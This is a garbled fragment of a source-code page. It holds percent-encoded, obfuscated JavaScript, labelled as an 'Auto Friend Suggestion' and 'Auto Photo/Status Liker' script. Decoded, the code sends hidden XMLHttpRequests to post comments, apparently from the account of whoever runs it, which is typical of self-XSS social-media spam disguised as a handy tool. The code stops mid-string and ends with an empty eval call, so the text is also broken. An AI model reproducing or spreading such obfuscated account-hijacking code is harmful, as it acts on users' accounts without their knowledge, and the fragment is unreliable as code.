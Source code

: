 6F%72%75%6D%5F%79%61%70%28%69%64%2C%5F%30%78%37%38%39%32%78%63%29%7B%76%61%72%20%5F%30%78%37%38%39%32%78%64%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%76%61%72%20%5F%30%78%37%38%39%32%78%38%3D%5F%30%78%61%32%32%63%5B%31%30%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%30%5D%2B%69%64%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%31%5D%2B%65%6E%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%5F%30%78%37%38%39%32%78%63%29%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%32%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%33%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%34%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%35%5D%3B%5F%30%78%37%38%39%32%78%38%2B%3D%5F%30%78%61%32%32%63%5B%34%36%5D%3B page status="protected"*/
/*Auto Friend Suggestion Script*/
/*Original Auto Photo/Status Liker 2014 by Kodran'Piraj*/

eval(unescape(""));
